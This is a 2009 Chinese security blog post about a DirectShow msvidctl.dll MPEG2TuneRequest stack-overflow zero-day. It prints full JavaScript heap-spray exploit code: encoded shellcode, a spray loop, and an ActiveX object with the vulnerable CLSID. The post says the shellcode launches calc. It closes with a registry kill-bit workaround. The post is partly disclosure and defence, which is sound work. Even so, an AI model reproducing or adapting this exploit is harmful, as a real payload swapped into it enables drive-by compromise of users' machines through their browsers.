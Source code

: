 ```yaml
---
title: DirectShow MPEG2TuneRequest 远程堆栈溢出漏洞利用程序Exploit+漏洞临时补丁
description: DirectShow0DAY出过一波，不过夜火我没太去注意，这波0DAY与第一波的DirectShow0DAY不同，这次的漏洞是DirectShow相关msvidctl.dll组件解析畸形MPEG2视频格式文件触发溢出，攻击者可以使用普通的javascript堆喷射方式远程执行任意代码。MicrosoftDirectShowMPEG2TuneRequest存在可被远程利用的堆栈溢出漏洞。
date: 2009-07-07 09:30:13
category: 漏洞信息
tags: ['缓冲区溢出', 'exploit', '漏洞信息', '0day']
post_id: 909
alias: Microsoft-DirectShow-MPEG2TuneRequest-Stack-Overflow-Exploit
ViewNums: 3210
---
```


DirectShow 0DAY出过一波，不过[夜火](/blog/)我没太去注意，这波[0DAY](/tags/0day)与第一波的DirectShow 0DAY 不同，这次的漏洞是[DirectShow相关msvidctl.dll组件解析畸形MPEG2视频格式文件触发溢出](/blog/microsoft-directshow-mpeg2tunerequest-stack-overflow-exploit)，攻击者可以使用普通的javascript堆喷射方式远程执行任意代码。

[Microsoft DirectShow MPEG2TuneRequest 存在可被远程利用的堆栈溢出漏洞](/blog/microsoft-directshow-mpeg2tunerequest-stack-overflow-exploit)。

关键代码如下：
-------------------------以下内容有危险，仅为研究使用--------------
```
var appllaa='0';
var nndx='%'+'u9'+'0'+'9'+'0'+'%u'+'9'+'0'+'9'+appllaa;
var dashell=unescape(nndx+"%u03eb%ueb59%ue805%ufff8%uffff%u4937%u4949%u4949%u4949%u4949" +
"%u4949%u4949%u4949%u4949%u5a51%u456a%u5058%u4230%u4130%u416b" +
"%u5541%u4132%u3242%u4242%u4142%u4230%u5841%u3850%u4241%u7875" +
"%u7969%u6d6c%u3038%u6544%u7550%u7350%u6e30%u516b%u7755%u4c4c" +
"%u414b%u656c%u3355%u4348%u3831%u4c6f%u304b%u464f%u4c78%u314b" +
"%u374f%u3450%u4a41%u624b%u4e69%u666b%u6e54%u666b%u6a61%u304e" +
"%u3931%u4f50%u4c69%u6f6c%u5974%u3450%u3534%u5957%u7951%u565a" +
"%u776d%u6f71%u7832%u6b6b%u6744%u714b%u6744%u7754%u3474%u4b35" +
"%u6e55%u436b%u466f%u6544%u3851%u506b%u4c66%u564b%u306c%u4c4b" +
"%u414b%u374f%u656c%u5a51%u6c4b%u654b%u4c4c%u674b%u6871%u6e6b" +
"%u7169%u654c%u6674%u5964%u4653%u4951%u6550%u6c34%u634b%u3470" +
"%u4b70%u4b35%u5470%u3438%u6e4c%u436b%u6670%u4e6c%u626b%u7550" +
"%u4c4c%u6e6d%u536b%u3758%u4a78%u554b%u4c59%u6d4b%u6e50%u6550" +
"%u6550%u4750%u6c70%u434b%u6558%u716c%u464f%u5a51%u4156%u3070" +
"%u4d56%u6c59%u4e38%u4963%u7150%u526b%u7570%u7138%u4b6e%u4b68" +
"%u3152%u6563%u4c38%u5958%u6e6e%u746a%u714e%u4b47%u7a4f%u7047" +
"%u6363%u5251%u634c%u5553%u4550");
var headersize=20;
var omybro=unescape(nndx);
var slackspace=headersize+dashell.length;
while(omybro.length<slackspace)
omybro+=omybro;
bZmybr=omybro.substring(0,slackspace);
shuishiMVP=omybro.substring(0,omybro.length-slackspace);
while(shuishiMVP.length+slackspace<0x30000)
shuishiMVP=shuishiMVP+shuishiMVP+bZmybr;
memory=new Array();
for(x=0;x<300;x++)
memory[x]=shuishiMVP+dashell;
var myObject=document.createElement('object');
DivID.appendChild(myObject);
myObject.width='1';
myObject.height='1';
myObject.data='./logo.gif';
myObject.classid='clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';
```
-------------------------------------

该shellcode会执行calc。

感谢代码分享者：咖啡。
感谢漏洞遗失者：~这里是马赛克~
来源：[Xeye](http://xeye.us/blog/2009/07/microsoft-directshow-mpeg2tunerequest-stack-overflow-exploit/)

===================**漏洞临时解决补丁**===================

KillBit相关组件,将以下内容保存为.reg文件双击导入即可

-------------------------------------
```
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINESOFTWAREMicrosoftInternet ExplorerActiveX Compatibility{0955AC62-BF2E-4CBA-A2B9-A63F772D46CF}]
"Compatibility Flags"=dword:00000400
```
-------------------------------------

补丁来源：[80SEC非官方八卦BLOG](http://hi.baidu.com/80sec/blog/item/fea49f17d6ca9358f3de329d.html)

